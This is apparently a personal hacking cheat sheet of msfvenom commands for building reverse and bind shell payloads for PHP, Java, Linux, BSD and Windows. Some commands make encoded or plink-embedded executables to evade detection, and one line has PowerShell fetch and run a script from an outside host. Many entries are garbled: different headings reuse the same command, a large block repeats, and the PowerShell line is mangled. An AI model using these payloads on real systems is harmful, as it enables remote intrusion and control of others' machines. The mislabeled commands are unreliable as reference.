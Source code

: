 ```yaml
---
tags: 🔻 🔻/shell msfvenom
aliases: Hacking Notes
---
```


# **msfvenom**

\# PHP reverse shell  
msfvenom -p php/meterpreter/reverse\_tcp LHOST=x.x.x.x  
  
\# Java WAR reverse shell  
msfvenom -p java/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Linux bind shell  
msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4443 -f c -b "\\x00\\x0a\\x0d\\x20" -e x86/shikata\_ga\_nai  
  
\# Linux FreeBSD reverse shell  
msfvenom -p bsd/x64/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Linux C reverse shell  
msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows non staged reverse shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows Staged (Meterpreter) reverse shell  
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=x.x.x.x  
  
\# Windows Python reverse shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows ASP reverse shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows ASPX reverse shell  
msfvenom -f aspx -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows JavaScript reverse shell with nops  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows Powershell reverse shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows reverse shell excluding bad characters  
msfvenom -p windows/shell\_reverse\_tcp -a x86 LHOST=x.x.x.x  
  
\# Windows x64 bit reverse shell  
msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows reverse shell embedded into plink  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
#JSP  
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=x.x.x.x  
  
#ASP  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
  
#FTP  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
ProFTPD  
msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=x.x.x.x  
  
  
ORACLE xdb FTP Pass Exploit  
  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
Apache shell war  
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=x.x.x.x  
  
#ASP  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
#JS  
msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=x.x.x.x  
  
  
#Create a PE Reverse Shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -o shell\_reverse.exe  
  
#Create a PE Reverse Shell and Encode 9 times with Shikata\_ga\_nai  
msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata\_ga\_nai -i 9 -o shell\_reverse\_msf\_encoded.exe  
  
#Create a PE reverse shell and embed it into an existing executable  
msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata\_ga\_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell\_reverse\_msf\_encoded\_embedded.exe  
  
#Create a PE Reverse HTTPS shell  
msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip LPORT=443 -f exe -o met\_https\_reverse.exe  
  
  
#python  
msfvenom -p cmd/unix/reverse\_python LHOST=*Your IP Address* LPORT=*<Your Port to Connect On* -f raw > shell.py  
  
#bash  
msfvenom -p cmd/unix/reverse\_bash LHOST=*Your IP Address* LPORT=*<Your Port to Connect On* -f raw > shell.sh  
  
#ELF  
msfvenom -p linux/x86/meterpreter/reverse\_tcp lhost=x.x.x.x  
  
#Linux Based Shellcode  
msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=*Your IP Address* LPORT=*<Your Port to Connect On* -f *language*  
  
#Windows based shellcode  
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=*Your IP Address* LPORT=*<Your Port to Connect On* -f *language*   
  
  
#Unix Shell  
msfvenom -p cmd/unix/reverse\_bash lhost=x.x.x.x  
  
#wordpress  
msfvenom -p php/meterpreter/reverse\_tcp lhost=x.x.x.x  
  
#cron  
msfvenom –p cmd/unix/reverse\_bash lhost=x.x.x.x  
  
#bind shell  
msfvenom -p windows/shell\_bind\_tcp LHOST=x.x.x.x  
  
  
for powershell downloading  
  
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('[http://](http://10.10.14.21/shell.ps1'))x.x.x.x

# msf
{incase its needed at any point}


ms08-67  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# PHP reverse shell  
msfvenom -p php/meterpreter/reverse\_tcp LHOST=x.x.x.x  
  
\# Java WAR reverse shell  
msfvenom -p java/shell\_reverse\_tcp LHOST=x.x.x.x  
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST LPORT -f war > war  
  
\# Linux bind shell  
msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4443 -f c -b "\\x00\\x0a\\x0d\\x20" -e x86/shikata\_ga\_nai  
  
\# Linux FreeBSD reverse shell  
msfvenom -p bsd/x64/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Linux C reverse shell  
msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows non staged reverse shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows Staged (Meterpreter) reverse shell  
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=x.x.x.x  
  
\# Windows Python reverse shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows ASP reverse shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows ASPX reverse shell  
msfvenom -f aspx -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows JavaScript reverse shell with nops  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows Powershell reverse shell  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows reverse shell excluding bad characters  
msfvenom -p windows/shell\_reverse\_tcp -a x86 LHOST=x.x.x.x  
  
\# Windows x64 bit reverse shell  
msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=x.x.x.x  
  
\# Windows reverse shell embedded into plink  
msfvenom -p windows/shell\_reverse\_tcp LHOST=x.x.x.x